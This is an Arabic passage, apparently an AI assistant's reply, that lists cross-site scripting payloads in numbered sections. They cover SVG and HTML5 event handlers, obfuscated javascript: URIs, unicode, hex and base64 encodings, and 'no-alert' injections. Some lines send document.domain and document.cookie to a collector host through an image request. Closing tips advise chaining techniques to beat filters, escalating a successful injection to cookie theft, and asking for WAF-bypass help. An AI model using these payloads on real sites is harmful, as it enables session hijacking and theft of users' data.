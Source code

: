 8. وسوم HTML5 معقدة:
- <svg onload=window['alert']('XSS')>: يستخدم window['alert'] في SVG.
- <svg><script>('al'+'ert')('XSS')</script></svg>: يقسم alert داخل SVG.
- <details open ontoggle=Function('alert("XSS")')()>: يستخدم Function في ontoggle.
- <meter value=2 min=0 max=10 onmouseover=('al'+'ert')('XSS')>2/10</meter>: يقسم alert في onmouseover.
- <video><source onerror=eval('al'+'ert')('XSS')></video>: يستخدم تقسيم alert في onerror.

9. JavaScript URIs معقدة:
- javascript:('al'+'ert')('XSS'): يقسم alert في عنوان javascript:.
- javascript://%0Awindow['alert']('XSS'): يستخدم سطر جديد مع window['alert'].
- javascript:\u0061lert('XSS'): يشفر a بيونيكود.
- javascript:eval('\x61lert(\'XSS\')'): يشفر a بصيغة هيكس.
- javascript:Function('alert("XSS")')(): يستخدم Function.
- data:text/html;base64,PHNjcmlwdD4oJ2FsJysnZXJ0JikoJ1hTUycpPC9zY3JpcHQ+: يشفر <script>('al'+'ert')('XSS')</script> بـ Base64.

10. حقن بدون تنبيهات:
- <script>console['log']('XSS')</script>: يستخدم console['log'].
- <script>('cons'+'ole')['log']('XSS: ' + document.domain)</script>: يقسم console.
- <script>new Image().src='http://localhost/log?c='+document['domain']</script>: يرسل النطاق.
- <script>document['title']='XSS'</script>: يغير العنوان.
- <script>document['body']['style']['background']='red'</script>: يغير لون الخلفية.



---

**نصائح إضافية**:
- **تجاوز الفلاتر المتقدمة**: جرب دمج تقنيات (مثل `<noscript><img src=x onerror=('al'+'ert')('XSS')>`) أو اختبار عيوب الفلتر (مثل تجاهل التشفير).
- **السياق مهم**: بعض الحقن تعمل فقط في سياقات معينة (مثل `javascript:` في `href`، أو `onerror` في `<img>`). كيّف الحقن حسب الحقل.
- **المتصفحات الحديثة**: بعض الحقن (مثل `<script language=`) قد تعمل فقط في متصفحات قديمة.
- **التصعيد**: عند نجاح الحقن، انتقل إلى استخراج البيانات (مثل `<script>new Image().src='http://localhost?c='+document.cookie</script>`).

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب، أو التركيز على سياق معين (مثل تجاوز WAF)، أخبرني وسأقدم ردًا مخصصًا!